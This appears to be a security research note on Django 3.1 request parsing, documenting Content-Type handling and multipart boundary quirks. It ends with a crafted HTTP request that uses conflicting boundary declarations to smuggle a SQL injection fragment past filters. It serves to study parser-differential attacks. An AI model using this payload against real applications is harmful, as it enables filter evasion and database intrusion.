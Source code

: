 ### Django 3.1

**Endpoint**
```py
def test1(request):
  data = json.loads(request.body)

def test2(request):
  data = request.POST
```

**JSON Content-Type**  
Doesn't have built-in Content-Type checking functionality, attacker can use `application/x-www-form-urlencoded` Content-Type with JSON body.

**Content-Type**
```
application/x-www-form-urlencoded
multipart/form-data
```

**Multipart Content-Type**
| Check             | Value            |
|-------------------|------------------|
| Mime-Type         | case-sensitive   |
| Multiple boundary | last position    |
| Boundary key      | case-insensitive |

**HTTP Request**  
```http
POST / HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; boundary=xxx; BOUNDARY=yyy
Content-Length: 189

--xxx
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

--yyy
Content-Disposition: form-data; name="q"

' union select '1
--yyy--
--xxx--
```